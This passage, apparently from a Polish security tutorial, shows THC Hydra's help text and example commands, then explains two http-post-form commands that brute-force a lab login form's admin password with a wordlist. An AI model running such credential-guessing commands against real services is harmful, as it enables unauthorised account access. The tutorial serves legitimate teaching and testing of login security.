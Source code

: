 ```bash
 -4 / -6 use IPv4 (default) / IPv6 addresses (put always in [] also in -M)
 -v / -V / -d verbose mode / show login+pass for each attempt / debug mode 
 -O use old SSL v2 and v3
 -q do not print messages about connection errors
 -U service module usage details
 server the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
 service the service to crack (see below for supported protocols)
 OPT some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cvs ftp ftps http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] mssql mysql(v4) nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs. Licensed under AGPL
v3.0. The newest version is always available at http://www.thc.org/thc-hydra
Don't use in military or secret service organizations, or for illegal purposes.
These services were not compiled in: postgres sapr3 firebird afp ncp ssh sshkey svn oracle mysql5 and regex support.

Use HYDRA_PROXY_HTTP or HYDRA_PROXY environment variables for a proxy setup.
E.g. % export HYDRA_PROXY=socks5://l:p@127.0.0.1:9150 (or: socks4:// connect://)
 % export HYDRA_PROXY=connect_and_socks_proxylist.txt (up to 64 entries)
 % export HYDRA_PROXY_HTTP=http://login:pass@proxy:8080
 % export HYDRA_PROXY_HTTP=proxylist.txt (up to 64 entries)

Examples:
 hydra -l user -P passlist.txt ftp://192.168.0.1
 hydra -L userlist.txt -p defaultpw imap://192.168.0.1/PLAIN
 hydra -C defaults.txt -6 pop3s://[2001:db8::1]:143/TLS:DIGEST-MD5
 hydra -l admin -p password ftp://[192.168.0.0/24]/
 hydra -L logins.txt -P pws.txt -M targets.txt ssh
```

Wracając do prostego formularza do uwierzytelnienia przykładowa składnia może wyglądać następująco:

```bash
hydra 192.168.0.11 -l admin -P slownik.txt http-post-form "/hydra/login.php:Login=^USER^&Haslo=^PASS^:S=Zalogowano poprawnie"
```

lub
```bash
hydra 192.168.0.11 -l admin -P slownik.txt http-post-form "/hydra/login.php:Login=^USER^&Haslo=^PASS^:F=Hasło nieprawidłowe"
```

Oba polecenia różnią się tylko warunkiem końcowym. W pierwszym wykorzystany jest warunek `S=` czyli *success*. Wskazuje on na wyrażenie występujące na stronie WWW po poprawnym zalogowaniu się. W drugim przypadku przyjęto strategie odwrotną. Wykorzystując `F=` czyli *failed* wskazujemy informacje, którą zwraca strona WWW w przypadku niepowodzenia logowania. 

Wybór techniki należy zazwyczaj do atakującego. Badając formularz logowania musi stwierdzić, czy lepiej jest weryfikować proces logowania za pomocą informacji o niepowodzeniu logowania czy o poprawnym logowaniu. Aby wykorzystać słownik z loginami zamiast parametru `-l` należy użyć `-L`. 
